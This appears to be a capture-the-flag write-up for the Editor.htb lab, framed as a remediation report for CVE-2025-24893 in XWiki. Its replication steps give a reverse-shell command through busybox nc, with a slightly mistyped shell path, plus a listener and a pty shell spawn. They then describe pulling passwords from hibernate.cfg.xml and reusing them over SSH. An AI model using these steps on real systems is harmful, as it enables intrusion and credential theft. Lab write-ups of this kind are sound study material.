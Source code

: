 

Remediation— Remote Code Execution

## Description

A vulnerability in Editor.htb allows unauthenticated remote code execution (RCE). An unauthenticated attacker can execute code on the server remotely, potentially gaining control of the affected application host.

## Impact

High — Successful exploitation can lead to full compromise of the application and access to sensitive data on the host. This violates the confidentiality, integrity, and availability (CIA) of affected systems and may allow attacker persistence, data exfiltration, or further lateral movement.

## Likelihood

High — Exploitation requires no authentication and can be performed remotely, increasing the probability of active exploitation.


## Remediation 
Upgrade XWiki to 15.10.11, 16.4.1, or any later release from the vendor. This is the official fix for CVE-2025-24893.

## Evidence 
### Replication steps 

 <img src="images/editor_version.png" class="editors" alt="editor">

 From the login page a version is clearly displayed. Research shows vulnerablity for that version https://nvd.nist.gov/vuln/detail/CVE-2025-24893. Google CVE-2025-24893 pOc and github is found. 

 1. Download CVE-2025-24893.py
 2. start listening nc -lvnp port
 3. execute `python3 CVE-2025-24893.py -t 'http://editor.htb:8080' -c 'busybox nc ip 9001 -e /bin/bashw`
 4. nc terminal will start rce 
 5. spawn shell - `python3 -c 'import pty; pty.spawn("/bin/bash")'`
 6. enumerate files on webserver will discover user oliver 
 <img src="images/oliver_found.png" class="editors" alt="user found">









 7. Google files on server and find hibernate.cfg.xml which stores XWiki data 
 8. find and open hibernate.cfg.xml
 9. Will see passwords used to login
10. ssh as oliver with password and one will be successful  `ssh oliver@IP`













